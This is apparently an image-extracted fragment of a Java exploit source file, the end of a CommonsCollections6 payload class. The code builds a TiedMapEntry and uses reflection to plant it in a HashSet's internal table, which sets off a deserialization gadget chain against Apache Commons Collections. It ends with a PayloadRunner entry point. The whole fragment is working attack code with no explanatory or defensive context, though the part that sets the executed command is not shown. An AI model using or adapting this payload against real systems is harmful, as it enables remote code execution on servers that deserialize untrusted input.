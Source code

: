 ```java

        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

        HashSet map = new HashSet(1);
        map.add("foo");
        Field f = null;
        try {
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f = HashSet.class.getDeclaredField("backingMap");
        }

        Reflections.setAccessible(f);
        HashMap innimpl = (HashMap) f.get(map);

        Field f2 = null;
        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }

        Reflections.setAccessible(f2);
        Object[] array = (Object[]) f2.get(innimpl);

        Object node = array[0];
        if(node == null){
            node = array[1];
        }

        Field keyField = null;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }

        Reflections.setAccessible(keyField);
        keyField.set(node, entry);

        return map;

    }

    public static void main(final String[] args) throws Exception {
        PayloadRunner.run(CommonsCollections6.class, args);
    }
}
```

